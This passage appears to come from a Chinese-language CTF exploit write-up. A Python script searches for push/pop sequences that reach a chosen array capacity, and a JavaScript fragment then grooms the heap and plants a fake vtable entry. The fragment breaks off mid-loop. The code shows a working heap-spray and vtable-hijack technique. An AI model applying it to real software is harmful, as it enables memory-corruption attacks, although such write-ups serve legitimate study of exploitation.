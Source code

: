我们可以简单写了一个python脚本来计算一下可行的方案：

这里用了随机的方法来决定是否pop或push，现场写算法还是太搞心态了（ tcl 。

```
import random

def push(capacity):
	return ((capacity-1)+(capacity-1)/4)+1

def pop(capacity):
	c = capacity-1
	c = c/2
	return (c+c/4)+1

while 1:
	step = 0
	capacity = 0x5
	result = []
	while capacity < 0x100 and step < 100:
		step += 1
		if random.random() > 0.1:
			capacity = push(capacity)
		else:
			capacity = pop(capacity)
		result.append(capacity)
		if capacity == 0xcf:
			print result
			print step
			exit(0)
```

这里直接使用下面的方案：push->79  pop->49  push->76  pop->47  push->89  pop->56  push->207

```
print("[+] Prepaired for heap spray");

	for(var idx = 0; idx < list_size; idx++){
		for(var i = 0; i < 200; i++){
			C[idx].set(i, 0x1000+i);
		}
		for(var i = 0; i < 79-1; i++){
			await C[idx].push(0x10000+i);
		} // capacity = 79
		for(var i = 0; i < 39; i++){
			await C[idx].pop();
		} // capacity = 49
		for(var i = 0; i < 76-40; i++){
			await C[idx].push(0x20000+i);
		} // capacity = 76
		for(var i = 0; i < 38; i++){
			await C[idx].pop();
		} // capacity = 47
		for(var i = 0; i < 51; i++){
			if(i != 8){ // 这个偏移可以通过填充的值找到
				await C[idx].push(0x30000+i);
			}
			else{
				await C[idx].push(bss); // vtable entry
			}
		} // capacity = 89
		for(var i = 0; i < 45; i++){
			await C[idx].pop();
		} // capacity = 56
		for(var i = 0; i < 163-5; i++){
			await C[idx].push(0x40000+i);
```
